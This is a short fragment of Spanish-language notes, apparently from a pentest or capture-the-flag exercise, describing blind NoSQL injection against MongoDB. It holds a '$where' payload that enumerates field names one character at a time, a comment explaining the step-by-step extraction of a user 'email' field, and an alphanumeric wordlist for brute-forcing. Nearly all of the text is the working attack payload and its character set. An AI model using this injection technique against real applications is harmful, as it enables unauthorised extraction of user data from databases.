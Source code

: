 ```jsx
"$where":"function(){ if (Object.keys(this)[3].match(/^$a$/)) return 1; else 0;}"
Vamos a sacar con esto el primer caracter, y asi lo hacemos sucesivamente
Campo del usuario: email
```

```jsx
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
0
1
2
3
4
5
```